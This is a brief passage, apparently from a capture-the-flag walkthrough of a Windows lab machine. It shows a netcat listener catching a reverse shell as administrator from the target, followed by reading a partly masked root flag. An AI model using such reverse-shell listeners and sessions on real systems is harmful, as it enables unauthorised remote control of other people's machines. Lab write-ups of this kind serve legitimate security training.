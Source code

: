 It hangs, and there’s a shell as administrator:

```

oxdf@hacky$ rlwrap -cAr nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.238 49268
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\ReportManagement> whoami
appsanity\administrator

```

And `root.txt`:

```

C:\Users\Administrator\Desktop> type root.txt
78eae46d************************

```